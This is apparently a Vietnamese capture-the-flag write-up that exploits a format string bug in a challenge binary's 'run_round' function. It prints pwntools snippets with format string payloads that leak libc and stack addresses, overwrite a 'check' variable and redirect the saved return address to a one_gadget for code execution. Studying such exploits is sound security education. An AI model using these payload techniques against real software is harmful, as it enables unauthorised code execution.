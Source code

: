 - Ở bài này ta thấy ngay bug là fmt tại hàm `run_round`

- ![image-20230313234133281](./assets/image-20230313234133281.png)

- ![image-20230313233949851](./assets/image-20230313233949851.png)

- Tuy nhiên với `size` của `buf > 1` thì chương trình sẽ kết thúc

- Thật may địa chỉ của `check` lại nằm trên `stack` do đó ta có thể dùng `fmt` để thay đổi nó.

- ![image-20230313234634418](./assets/image-20230313234634418.png)

- Đầu tiên ta sẽ leak `libc` và `stack` đồng thời thay đổi giá trị của `check` 

- ```python
  fmt = b'%13$p%8$p%7$hn'
  r.sendlineafter(b'do-overs.\n', fmt)
  libc_leak = r.recv(14)
  stack = r.recv(14)
  stack = int(stack, 16)
  libc.address = int(libc_leak, 16) - libc.sym['__libc_start_main'] - 243
  print(hex(libc.address))
  print(hex(stack))
  ```

- Mục tiêu của ta là sẽ thay đổi `libc_start_main_ret` thành `one_gadget`

- Do `buf` nằm trên `bss` nên ta không thể đưa trực tiếp địa `0x7fffffffdd58` để thay đổi `libc_start_main_ret` nên ta sẽ đưa nó bằng cách gián tiếp thông qua `fmt`

- ![image-20230313235554483](./assets/image-20230313235554483.png)

- Ta sẽ thay đổi `0x7fffffffde48` để nó trỏ đến `0x7fffffffdd58` và `0x7fffffffde58` trỏ đến `0x7fffffffdd5a`

- ```python
  fmt = f'%{save_rip & 0xffff}c%30$hn%2c%31$hn%7$hn'
  ```

- ![image-20230314000044471](./assets/image-20230314000044471.png)

- do mỗi lần chỉ nên ghi 2 byte nên ta sẽ ghi 2 byte cuối của `one_gadget` lên `0x7fffffffdd58` và 1 byte tiếp lên `0x7fffffffdd5a`

- ```python
  fmt = f"%{(libc.sym['one_gadget'] >> 16) & 0xff}c%45$hhn"
  fmt += f"%{(libc.sym['one_gadget'] & 0xffff) - ((libc.sym['one_gadget'] >> 16) & 0xff)}c%43$hn"
  r.sendlineafter(b'chance.\n', fmt)
  ```

- ![image-20230314000255732](./assets/image-20230314000255732.png)

- ![image-20230314000340821](./assets/image-20230314000340821.png)